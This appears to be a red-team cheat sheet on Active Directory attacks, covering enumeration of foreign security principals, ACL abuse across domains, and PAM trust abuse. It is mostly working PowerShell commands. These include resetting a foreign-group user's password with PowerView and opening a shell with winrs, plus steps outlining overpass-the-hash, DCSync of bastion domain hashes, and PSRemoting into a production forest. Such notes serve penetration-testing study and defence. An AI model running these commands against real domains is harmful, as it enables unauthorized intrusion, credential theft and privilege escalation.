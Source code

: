 **Foreign Security Principals**  

Enumerate FSPs  

```powershell
# PowerView:
Find-ForeignGroup -Verbose
Find-ForeignUser -Verbose
Get-DomainUser -Domain <target_domain>
# Use the output from Get-DomainUser to match SIDs/RIDs to users within foreign group 

# Using ActiveDirectory module:
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server <foreign-domain>
Get-ADGroup -Filter * -Properties member -Server <foreign-domain> | ?{$_.Member -match '<sid from above>'}
```

Then enumerate ACLs for the domain  

```powershell
# Powerview
Find-InterestingDomainAcl -Domain <target-domain>
# Look for an ACL that a user within a ForeignGroup has, which can be abused
# We could reset the password of a user if an account we have comrpomised, has GenericAll rights over a user that is within a Foreign Group
# E.g. with PowerView
Set-DomainUserPassword -Identity <targetUser-InForeignGroup> -AccountPassword (ConvertTo-SecureString 'Password@123' -AsPlainText -Force) -Domain <target_domain> -Verbose
winrs -r:<domain> -u:<targetdomain>\<target_user> -p:Password@123 "cmd.exe"
```

**Abusing PAM Trust**  

Usually enabled between a Bastion or Red Forest and a production/user forest.  

```powershell
# With AD privs
# AD Module
Get-ADTrust -Filter *
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server <bastion.local>
# Convert any SIDs to usernames to determine which user to impersonate
Get-ADUser -Filter * -Server <domain> | ?{$_.SID -match '<SID>'}
# Perform OPTH to start a cmd session as the user identified above
# Could then perform DCSync attack to get hashes from bastion domain, e.g. Administrator of <bastion.local>
# OPTH again with new creds to get access to bastion domain

# On <bastion-dc>, enumerate if there is a PAM trust:
$bastiondc = New-PSSession <bastion-dc.bastion.local>
Invoke-Command -ScriptBlock {Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}} -Session $bastiondc
# Check which users are members of the Shadow Principals:
Invoke-Command -ScriptBlock {Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl} -Session $bastiondc

# Use OPTH to get a shell as the <bastion-dc> Admin then
# Establish a direct PSRemoting session on bastion-dc and access production.local:
Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential
```
